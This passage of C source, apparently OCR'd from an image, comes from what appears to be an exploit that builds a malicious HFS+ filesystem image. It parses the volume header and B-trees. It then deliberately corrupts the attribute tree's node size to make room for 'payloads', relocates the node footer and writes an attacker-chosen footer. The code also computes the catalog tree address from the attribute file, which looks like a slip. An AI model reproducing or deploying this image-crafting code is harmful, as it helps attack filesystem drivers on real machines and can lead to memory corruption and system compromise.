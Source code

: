 ```
    size_t blocksize = be32toh(hfs_vh->blocksize);

    size_t cat_tree_start_address = be32toh(hfs_vh->attr_file.extents->start_block) * blocksize;

    cat_tree_start_address += sizeof(struct hfs_bnode_desc);
    struct hfs_btree_header_rec *cat_tree = (struct hfs_btree_header_rec *)(hfs_buffer+cat_tree_start_address);


    size_t attr_tree_start_address = be32toh(hfs_vh->attr_file.extents->start_block) * blocksize;

    attr_tree_start_address += sizeof(struct hfs_bnode_desc);
    struct hfs_btree_header_rec *attr_tree = (struct hfs_btree_header_rec *)(hfs_buffer+attr_tree_start_address);


    printf("[+] Parsing basic stuff about catalog file\n");
    parse_tree(cat_tree);

    printf("[+] Parsing basic stuff about attribute file\n");
    parse_tree(attr_tree);

}


void resize_nodes(unsigned char *hfs_buffer, size_t len)
{
    uint8_t footer_node[] = {
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x77, 0x00,
    0x76, 0x00, 0x75, 0x00, 0x74, 0x42, 0x00, 0x0e
    };

    struct hfsplus_vh *hfs_vh = (struct hfsplus_vh *)(hfs_buffer+0x400);
    size_t blocksize = be32toh(hfs_vh->blocksize);
    size_t attr_tree_start_address_base = be32toh(hfs_vh->attr_file.extents->start_block) * blocksize;
    size_t attr_tree_start_address = attr_tree_start_address_base + sizeof(struct hfs_bnode_desc);
    struct hfs_btree_header_rec *attr_tree = (struct hfs_btree_header_rec *)(hfs_buffer+attr_tree_start_address);

    printf("[+] Resizing attribute tree nodes to make same space for machinery\n");
    printf("\tNode size: 0x%x\n", be16toh(attr_tree->node_size));

    /* Let's have a bigger node size so we can fit our payloads nicely */
    attr_tree->node_size = htobe16(0x8000);

    printf("\tNode size (corrupted): 0x%x\n", be16toh(attr_tree->node_size));

    /* The node footer has to go to the new place */
    unsigned char *dest_address = hfs_buffer + attr_tree_start_address_base + (0x8000-0x10);
    unsigned char *src_address = hfs_buffer + attr_tree_start_address_base + (0x2000-0x10);

    printf("\tOriginal footer at: 0x%lx\n", (unsigned long)src_address);
    printf("\tNew footer at: 0x%lx\n", (unsigned long)dest_address);

    printf("\tOriginal footer at (relative): 0x%lx\n", (unsigned long)src_address - (unsigned long)hfs_buffer);
    printf("\tNew footer at (relative): 0x%lx\n", (unsigned long)dest_address - (unsigned long)hfs_buffer);

    memcpy(dest_address, src_address, 0x10);

    /* The target node footer is given by us */
```